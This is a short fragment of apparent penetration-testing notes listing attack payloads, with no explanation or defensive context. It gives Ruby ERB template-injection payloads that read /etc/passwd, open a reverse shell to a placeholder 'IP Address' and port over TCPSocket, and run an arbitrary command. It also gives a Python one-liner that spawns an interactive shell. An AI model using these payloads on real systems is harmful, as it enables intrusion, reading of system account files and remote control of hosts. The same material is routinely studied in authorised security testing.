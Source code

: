 Ruby:
```ruby
<%= File.read("/etc/passwd") %>
<%= spawn("sh",[:in,:out,:err]=>TCPSocket.new("IP Address",PORT)) %>
<%= command %>
```

Python:
```shell
$ python3 -c "import pty; pty.spawn('bin/bash')"
```

How to tag [[File Transfer#Linux Client#fileless-execution]]